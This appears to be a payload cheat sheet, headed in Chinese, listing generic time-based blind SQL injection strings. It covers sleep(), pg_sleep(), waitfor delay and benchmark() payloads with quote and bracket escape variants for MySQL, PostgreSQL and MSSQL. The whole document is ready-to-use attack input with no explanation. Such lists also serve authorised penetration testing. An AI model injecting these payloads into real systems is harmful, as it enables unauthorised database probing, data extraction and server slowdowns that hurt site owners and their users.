 ## 基于时间的通用SQL注入负载

sleep(5)#
1 or sleep(5)#
" or sleep(5)#
' or sleep(5)#
" or sleep(5)="
' or sleep(5)='
1) or sleep(5)#
") or sleep(5)="
') or sleep(5)='
1)) or sleep(5)#
")) or sleep(5)="
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
'));waitfor delay '0:0:5'--
"));waitfor delay '0:0:5'--
benchmark(10000000,MD5(1))#
1 or benchmark(10000000,MD5(1))#
" or benchmark(10000000,MD5(1))#
' or benchmark(10000000,MD5(1))#
1) or benchmark(10000000,MD5(1))#
") or benchmark(10000000,MD5(1))#
') or benchmark(10000000,MD5(1))#
1)) or benchmark(10000000,MD5(1))#
")) or benchmark(10000000,MD5(1))#
')) or benchmark(10000000,MD5(1))#
pg_sleep(5)--
1 or pg_sleep(5)--
" or pg_sleep(5)--
' or pg_sleep(5)--
1) or pg_sleep(5)--
") or pg_sleep(5)--
') or pg_sleep(5)--
1)) or pg_sleep(5)--
")) or pg_sleep(5)--
')) or pg_sleep(5)--
AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe
AND (SELECT * FROM (SELECT(SLEEP(5)))YjoC) AND '%'='
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)--
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)#
SLEEP(5)#
SLEEP(5)--
SLEEP(5)="
SLEEP(5)='
or SLEEP(5)
or SLEEP(5)#
or SLEEP(5)--
or SLEEP(5)="
or SLEEP(5)='
waitfor delay '00:00:05'
waitfor delay '00:00:05'--
waitfor delay '00:00:05'#
benchmark(50000000,MD5(1))
benchmark(50000000,MD5(1))--
benchmark(50000000,MD5(1))#